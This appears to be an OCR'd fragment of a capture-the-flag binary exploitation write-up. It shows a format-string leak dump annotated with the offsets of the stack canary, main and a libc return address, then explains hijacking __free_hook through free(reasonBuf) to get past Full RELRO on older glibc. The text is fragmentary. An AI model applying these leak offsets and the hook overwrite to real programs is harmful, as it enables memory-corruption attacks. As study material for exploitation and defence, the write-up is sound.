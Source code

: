 we can input addresses of email here to leak content 


```
Reason for late enrollment:
0x7f91c8b9e643 
(nil) 
0x7f91c8aba210 
0x73 
0xffffffff 
0x400000050 
0x557ddd5132a0 
0x796d6d7564 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
0x7ffc1c88d110 
0x9cf5cec9cfd41700 // canary %19$p
0x7ffc1c88d110 
0x557db1cf359e // main+108 %21$p
0x1 
0x7f91c89dfd68 // __libc_start_call_main+120 GOT_leak %23$p
0x7ffc1c88d210 
0x557db1cf3532 // main %25$p
0x1b1cf2040 
0x7ffc1c88d228 
0x7ffc1c88d228 
0x74dab26899accbb2 
(nil) 
0x7ffc1c88d238 
0x7f91c8c01000
```

our prime candidates:
```c
free(reasonBuf);
```


```
Why __free_hook?
“… modify the behavior of free(3) by specifying appropriate hook
functions.” __free_hook(3) - Linux man page

Similar to GOT hijacking, but still works in Full ReLRO!


Can be thought of as GOT entry for the free function that is
always writable.
Only works for glibc < 2.34


e.got["<some libc function>"]
ELF("libc.so.6").sym["__free_hook"]
```
